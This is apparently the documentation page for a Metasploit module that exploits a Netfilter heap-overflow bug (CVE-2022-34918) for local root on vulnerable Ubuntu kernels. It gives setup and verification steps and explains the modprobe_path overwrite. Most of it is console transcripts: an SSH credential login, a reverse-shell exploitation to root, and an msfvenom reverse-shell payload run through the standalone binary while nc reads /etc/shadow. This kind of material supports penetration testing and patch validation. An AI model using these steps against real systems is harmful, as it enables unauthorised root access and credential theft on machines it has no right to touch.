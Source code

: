 ## Vulnerable Application

This module exploits a vulnerability in Netfilter, the Linux Kernel component
that implements firewall capabilities in Linux.
The vulnerability is a type-confusion bug that leads to a heap overflow in kernel memory.
The exploit relies on spraying, it may fail, or crash the target system.

### Install

The vulnerability exists in linux kernel versions from `5.8-rc1` up to `v5.19-rc5`.
this module contains offsets for some vulnerable Ubuntu versions.

Install Ubuntu 22.04 LTS with a vulnerable kernel version.
`apt-get install linux-image-5.15.0-25-generic`
Hold shift when you reboot and select the proper kernel version

## Verification Steps

1. Make an Ubuntu target.
1. Create a Meterpreter or shell payload and upload it to the Ubuntu target. Or setup openssh-server, and use the corresponding auxiliary module.
1. Get a session
1. Do: `use exploit/linux/local/netfilter_nft_set_elem_init_privesc`
1. Do: `set session <session_id>`
1. Do: `set payload <payload>`
1. Do: `set lhost <ip>`
1. Do: `set [r|l]port <port>`
1. Do: `run`
1. You should get a new session as the `root` user.
1. If it fails, retry, or reboot Ubuntu and retry.

## Options

### COMPILE

[Auto|True|False] This selects the binary to use. `True` will cause the module to upload the source
code and perform compilation on target, `False` will cause the module to upload a precompiled binary.
`Auto` will cause the module to try compiling the exploit on the target but will fall back to the
precompiled option if a compiler cannot be found.

### WritableDir

This indicates the location where you would like the payload and exploit binary stored.
The default value is `/tmp`

Due to the exploitation strategy that this module relies on, `/tmp` must be writable, even if
`WritableDir` is a different directory. `modprobe_path` gets overwritten with a path to a file
in `/tmp`. This file is a bash script that adds the setuid bit to the payload uploaded at
`WritableDir`.

## Scenarios

### Ubuntu 21.10 x64 With Linux 5.13.0.37-Generic

```
msf6 > use auxiliary/scanner/ssh/ssh_login
msf6 auxiliary(scanner/ssh/ssh_login) > set rhosts 192.168.0.40
rhosts => 192.168.0.40
msf6 auxiliary(scanner/ssh/ssh_login) > set username redouane
username => redouane
msf6 auxiliary(scanner/ssh/ssh_login) > set password user
password => user
msf6 auxiliary(scanner/ssh/ssh_login) > run

[*] 192.168.0.40:22 - Starting bruteforce
[+] 192.168.0.40:22 - Success: 'redouane:user' 'uid=1000(redouane) gid=1000(redouane) groupes=1000(redouane),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),122(lpadmin),134(lxd),135(sambashare) Linux hopeful-zhukovky 5.15.0-25-generic #25-Ubuntu SMP Wed Mar 30 15:54:22 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux '
[*] SSH session 1 opened (192.168.0.32:46499 -> 192.168.0.40:22) at 2022-07-22 02:44:56 +0200
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/ssh/ssh_login) > use exploit/linux/local/netfilter_nft_set_elem_init_privesc
[*] Using configured payload linux/x64/shell_reverse_tcp
msf6 exploit(linux/local/netfilter_nft_set_elem_init_privesc) > set lhost wlan0
lhost => wlan0
msf6 exploit(linux/local/netfilter_nft_set_elem_init_privesc) > set session 1
session => 1
msf6 exploit(linux/local/netfilter_nft_set_elem_init_privesc) > run

[!] SESSION may not be compatible with this module:
[!]  * incompatible session architecture: 
[*] Started reverse TCP handler on 192.168.0.32:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Dropping pre-compiled binaries to system...
[*] Writing '/tmp/z9G2XJ' (761240 bytes) ...
[*] Uploading payload...
[*] Writing '/tmp/AsfKz' (248 bytes) ...
[*] Running payload on remote system...
[+] Deleted /tmp/z9G2XJ
[+] Deleted /tmp/AsfKz
[*] Command shell session 2 opened (192.168.0.32:4444 -> 192.168.0.40:35956) at 2022-07-22 02:45:54 +0200

id
[*] Payload executed! If it was successful, a session should have been created

uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),122(lpadmin),134(lxd),135(sambashare),1000(redouane)
```

## Notes

### Included Binaries
The binary used by this exploit `data/exploits/CVE-2022-34918/ubuntu.elf` can be used separately from
Metasploit. The binary takes a single argument which is the payload or executable you wish to launch as `root`.

The exploit adds the setuid bit to the payload, the path given must be absolute, avoid binaries that don't run
when the setuid bit is detected.

Also, the exploit process forks, gets its child to execute the setuid payload binary, and exits
(it doesn't call `wait` or `waitpid`). For this reason, don't expect the binary to read input from standard input.

The following snippet shows an example of how one might run a payload to get
a new Bash shell as the `root` user.

```
redouane@wizardly-maxwell:~$ id
uid=1000(redouane) gid=1000(redouane) groups=1000(redouane),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),122(lpadmin),134(lxd),135(sambashare)
redouane@wizardly-maxwell:~$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=127.0.0.1 LPORT=1337 PrependSetresuid=true PrependSetresgid=true -f elf -o payload
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 96 bytes
Final size of elf file: 216 bytes
Saved as: payload
redouane@wizardly-maxwell:~$ chmod +x payload
redouane@wizardly-maxwell:~$ (echo id; head -n 2 /etc/shadow) | nc -lvvp1337 &
[1] 2272
redouane@wizardly-maxwell:~$ Listening on 0.0.0.0 1337

redouane@wizardly-maxwell:~$ ./ubuntu.elf /home/redouane/payload
[+] kernel version '5.15.0-25-generic #25-Ubuntu' detected
[+] Second process currently waiting
[+] Get CAP_NET_ADMIN capability
[+] Netlink socket created
[+] Netlink socket bound
[+] Table table created
[+] Set for the leak created
[+] Set for write primitive created
[*] Leak in process
[+] Leak succeed
[+] kaslr base found 0xffffffff9f000000
[+] physmap base found 0xffff910a00000000
[+] modprobe path changed !
[+] Modprobe payload setup
[?] waitpid
[?] sem_post
[+++] Got root shell, should exit?
Connection received on localhost 56962
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),122(lpadmin),134(lxd),135(sambashare),1000(redouane)
root:!:19193:0:99999:7:::
daemon:*:19101:0:99999:7:::
```
